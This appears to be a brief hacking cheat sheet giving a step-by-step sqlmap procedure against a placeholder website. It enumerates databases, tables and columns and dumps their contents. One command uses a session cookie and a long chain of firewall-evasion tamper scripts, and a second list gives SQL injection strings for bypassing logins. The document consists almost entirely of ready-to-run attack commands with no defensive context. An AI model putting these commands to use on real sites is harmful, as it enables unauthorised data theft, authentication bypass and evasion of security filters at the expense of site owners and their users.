 # SQLMAP

1. situsanda.com/news.php?id=1
2. python2 sqlmap.py "situsanda.com/news.php?id=1" --dbs
3. python2 sqlmap.py "situsanda.com/news.php?id=1" --tables -D situsanda
4. python2 sqlmap.py "situsanda.com/news.php?id=1" --columns -D namadatabase -T namatabel
5. python2 sqlmap.py "situsanda.com/news.php?id=1" --dump -D namadatabase -T namatabel
6. python2 sqlmap.py "situsanda.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "situsanda.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql

# SQL Injection basics
1. '+OR+1=1-- (microsoft)
2. administrator'--
3. ' or 1=1 limit 1 -- -+
4. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
